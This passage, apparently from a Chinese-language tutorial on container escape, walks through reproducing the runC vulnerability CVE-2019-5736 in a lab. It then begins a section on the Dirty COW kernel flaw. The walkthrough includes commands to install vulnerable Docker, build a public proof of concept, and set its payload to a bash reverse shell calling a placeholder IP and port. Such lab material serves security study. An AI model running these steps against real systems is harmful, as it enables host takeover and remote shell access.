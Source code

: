 ```bash
./metarget cnv install cve-2019-5736
```

如果在其他机器上部署，可以使用以下流程

```bash
# docker版本<= 18.09.2; runC版本<=1.0-rc6。
# 复现前需给机器打好快照或备份/usr/bin/docker-runc文件，因为漏洞利用结束会造成runc文件被修改，docker无法正常使用
# 移除当前安装的docker
yum remove docker-ce docker-ce-cli containerd.io
yum install -y yum-utils device-mapper-persistent-data lvm2
yum-config-manager --add-repo http://mirrors.aliyun.com/docker-ce/linux/centos/docker-ce.repo
# 列出可用版本
yum list docker-ce --showduplicates | sort -r
yum install docker-ce-18.03.1.ce-1.el7.centos -y
```

```bash
# 拉取poc，进入目录下
git clone https://github.com/Frichetten/CVE-2019-5736-PoC.git
# 修改main.go文件中的payload
var payload = "#! /bin/bash \n bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1"
# 编译go文件
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
# 拉取ubuntu镜像，运行一个容器
docker pull ubuntu:18.04
docker run -it --net=host ubuntu:18.04 /bin/bash # 进去后暂不退出 终端1
docker cp main id:/home# 打开另一个终端输入此命令 终端2
cd /home # 终端1
chmod 777 main# 终端1
./main# 终端1
docker exec -it id /bin/sh# 终端2
```

main.go 文件
![40fee9d1d71a49cea7fdd7fcd2c6b8a7.png](https://s2.loli.net/2023/10/07/JNiTD96v47YtmQH.png)
终端 1:
![410113fcd6664d15b5d6fb41199afed3.png](https://s2.loli.net/2023/10/07/I1kH2TZFeuGp4Co.png)
终端 2:
![58ec074a2cfc45f093e105c7f8740c35.png](https://s2.loli.net/2023/10/07/1k68jrqSZJAGaDu.png)
反弹 shell：
![d37be8595b754190876db0d683d82b88.png](https://s2.loli.net/2023/10/07/tKGVyn1zPo9dw2r.png)

## 0x05 内核漏洞导致的容器逃逸

### 5.1 CVE-2016-5195：内存页的写时复制问题

#### 5.1.1 内存页写时复制

在 Linux 系统中，调用 fork 系统调用创建子进程时，并不会把父进程所有占用的内存页复制一份，而是与父进程共用相同的内存页，而当子进程或者父进程对内存页进行修改时才会进行复制 —— 这就是著名的写时复制（Copy On Write）机制。
